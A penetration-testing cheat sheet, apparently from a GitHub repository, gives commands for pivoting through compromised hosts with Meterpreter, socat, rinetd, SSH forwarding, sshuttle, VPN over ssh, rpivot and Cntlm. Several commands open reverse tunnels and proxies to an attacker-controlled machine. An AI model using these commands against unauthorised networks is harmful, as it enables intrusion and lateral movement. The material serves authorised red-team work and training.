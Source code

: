 
Pivoting is a process of moving from one compromised host to another.
It's a unique technique of using an instance (also referred as a "plant" or a "foothold") to be able to more around inside a network.

### Pivoting with Meterpreter

```bash
meterpreter > run autoroute -s 7.7.7.0/24
meterpreter > run autoroute -p
meterpreter > run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24
```

```bash
msf > use auxiliary/server/socks4
msf > run
```


### Pivoting with rinetd

```bash
apt install rinetd
cat /etc/rinetd.conf
systemctl start rinetd
rinetd -f
```

### Pivoting with socat

Redirecting 9000/tcp -> 127.0.0.1:8080/tcp:

```bash
socat tcp-l:9000,fork,reuseaddr tcp:127.0.0.1:8000
```

Binding on the given address:

```bash
socat tcp-l:9000,fork,reuseaddr,bind=192.168.0.102 tcp:127.0.0.1:8000
```

### Pivoting with ssh

Initiating a connection to the compromised host:

```bash
ssh -o “PasswordAuthentication=yes” -o "StrictHostKeyChecking=no" hacker@10.11.0.163 -R 3306:127.0.0.1:3306 
```

```bash
ssh hacker@10.11.0.163 -D 1080
```

```bash
ssh hacker@10.11.0.163 -L 445:192.168.1.1:445
```

Creating reverse connections from the compromised host (binding a dynamic proxy):

```bash
ssh gh0st@10.10.10.10 -D 127.0.0.1:9050 -R 127.0.0.1:9050:127.0.0.1:9050 -N -f
```

### Using sshuttle

Forwarding all traffic to the remote network:

```bash
sshuttle -r username@remotehost 0.0.0.0/0
```

Restricting the VPN to specific subnets rather than all network traffic:

```bash
sshuttle -r username@remotehost 10.0.0.0/8 172.16.0.0/16
```

Forwarding DNS queries:

```bash
sshuttle --dns -r username@remotehost 10.0.0.0/8 172.16.0.0/16
```


### Deploying VPN over ssh

Since openssh release 4.3 it is possible to tunnel layer 3 network traffic via an established ssh channel. This has an advantage over a typical tcp tunnel because you are in control of ip traffic. 
So, for example, you are able to perform SYN-scan with nmap and use your tools directly without resorting to `proxychains` or other proxifying tools. 
It’s done via the creation of **tun** devices on client and server side and transferring the data between them over ssh connection. 

This is quite simple, but you need root on both machines since the creation of tun devices is a privileged operation. 

These lines should be present in your `/etc/ssh/sshd_config` file (server-side):
```text
    PermitRootLogin yes
    PermitTunnel yes
```

Creating a pair of tun devices:

```bash
ssh user@host -w any:any
```

Configuring the client interface:

```bash
ip addr add 1.1.1.2/32 peer 1.1.1.1 dev tun0
```

Configuring the server interface:

```bash
ip addr add 1.1.1.1/32 peer 1.1.1.2 dev tun0
```

Enabling IP forwarding and NAT on the server:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -s 1.1.1.2 -o eth0 -j MASQUERADE
```

Routing through the given gateway:

```bash
route add -net 10.0.0.0/16 gw 1.1.1.1
```

### Pivoting with redsocks

- https://crosp.net/blog/administration/install-configure-redsocks-proxy-centos-linux/

### Pivoting with rpivot

- https://github.com/artkond/rpivot 

This is a method of traversing NAT connections. This is a reverse socks proxy tool that allows you to tunnel traffic via socks proxy. 
As a result, a socks4 proxy service will be bound server side on port 1080.

Running on the server side:

```bash
python server.py --proxy-port 1080 --server-port 9999 --server-ip 0.0.0.0
```

Running on the server side:

```bash
python client.py --server-ip <ip> --server-port 9999
```

### Pivoting with Cntlm

- http://cntlm.sourceforge.net/ is the tool of choice for running any non-proxy aware programs over NTLM-proxy.

Basically this tool authenticates against a proxy and binds a port locally that is forwarded to the external service you specify. 
This port bound does not require any authentication so you can use your tools directly (putty/ssh for example). It uses a config file for its operation. 

Here’s a bare-bones config example to forward port 443 (this port is most likely to be allowed through the proxy):

```text
    Username Alice
    Password [email protected]
    Domain CONTOSO.COM
    Proxy 10.0.0.10:8080
    Tunnel 2222:<attackers_machine>:443
```

Given you have ssh running on the remote host on port 443, you can launch ssh client (openssh/putty) and connect to local port 2222 to get access to the external machine.

Running the tool:

```bash
cntlm.exe -c config.conf
```
